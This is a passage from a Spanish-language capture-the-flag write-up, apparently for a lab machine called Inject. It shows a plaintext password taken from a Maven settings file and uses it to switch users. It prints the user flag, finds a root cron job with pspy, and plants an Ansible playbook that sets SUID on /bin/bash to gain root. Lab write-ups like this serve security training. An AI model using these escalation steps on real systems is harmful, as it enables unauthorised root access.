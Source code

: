 ```bash
      <configuration></configuration>
    </server>
  </servers>
</settings>
frank@inject:~/.m2$ 
```

`phil:DocPhillovestoInject123`

Podemos migrar a `phil`

```bash
frank@inject:~/.m2$ su phil
Password: 
phil@inject:/home/frank/.m2$ whoami
phil
phil@inject:/home/frank/.m2$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
phil@inject:/home/frank/.m2$ 
```

## User flag

```bash
phil@inject:~$ cat user.txt 
320973f5bfc50ddb3e9ae34aa7b4d3fd
phil@inject:~$ 
```

Vamos a usar `pspy` 

<a href='https://github.com/DominicBreuker/pspy/releases' style='color: yellow'>Click para Descargar pspy64</a>

Si lo corremos vemos que esta eliminando esto

```bash
2023/03/12 00:50:11 CMD: UID=0     PID=8752   | /usr/bin/rm -rf /opt/automation/tasks/playbook_1.yml 
```

Borra todo lo que hay y despues yace una copia en la misma ruta

```bash
2023/03/12 00:52:11 CMD: UID=0     PID=8870   | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/ 
```

Cree esto en la ruta `opt/automation/tasks`

```bash
❯ catn pe.yml
- hosts: localhost
  tasks:
    - name: Priv esc
      ansible.builtin.shell: |
        chmod +s /bin/bash
      become: true
```
